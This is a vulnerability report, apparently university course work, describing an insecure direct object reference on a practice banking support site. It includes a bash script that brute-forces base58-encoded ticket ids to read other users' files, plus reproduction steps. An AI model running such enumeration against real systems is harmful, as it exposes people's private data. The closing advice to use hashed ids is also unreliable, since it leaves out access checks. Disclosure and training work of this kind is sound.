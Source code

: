 # Insecure direct object reference vulnerability in 'support.quoccabank.com' leads to unauthorized access and information leakage.

## Severity: medium

## Report Summary:

The 'support.quoccabank.com/raw/' endpoint allows for the user to submit support tickets, but utilizes base58 encoding to obfuscate the generated unique id in the format `user_id:page_number`. Therefore by brute force enumeration, one is able to view the files of all users on the database.

## Proof of concepts

this is the bash script that enumerates all the possible ids and page numbers and prints the response code for the user to grep

```shell
#!/bin/sh
#$1 = id
#$2 = max_number
split_input() {
        local body=$(echo $response| sed 's/{.*}//')
        local json=$(echo $response| sed 's/.*{/{/')
        local response_code=$(echo $json| jq '.response_code')
        echo "number = $i,code = $response_code, file= $file"
        #echo $body
        #echo $json
        if [ $response_code -eq "200" ]
        then
                echo $body | grep '6443'
        fi
}
for i in $(seq 0 10000)
do
        file=$(echo -n "$i:1"| base58)
        #file=$(echo -n "$1:$i"| base58)
        response=$(curl -s --proxy http://127.0.0.1:8080 -k -i "https://support.quoccabank.com/raw/$file" --write-out '%{json}')
        split_input $response $i $file
        sleep 0.1
done
```

for this endpoint `https://support.quoccabank.com/raw/RVnSH2uR` aka `raw/1125:4` encoded in base58

![image-20210709200443014](./images/support1.png)

similarly `https://support.quoccabank.com/raw/VVBWU75i` aka `raw/9447:1` 

![image-20210709200651795](C:\Users\Jacky\Documents\unsw\6843\project1\images\support2.png)

## Steps to reproduce 

You can either run the brute forcing script to find out other users ids, pages or you can just pipe the above input into [Cyberchef](https://gchq.github.io/CyberChef/) as shown in the figure below, then paste it into 'https://support.quoccabank.com/raw/{base58(input)}' and there will be information leakage.

![image-20210709200812817](C:\Users\Jacky\Documents\unsw\6843\project1\images\support3.png)

 ## Recommendations 

Security by obscurity is not the proper method to securing a web application, encoding is not the same as encrypting and obfuscation on the id codes are easily defeated by brute force methods or just people who are capable and willing to spend a lot of time to defeat any mechanisms. Other methods for generating unique tokens such as a hash algorithm, preferably not MD5, but even MD5 is better than base58.

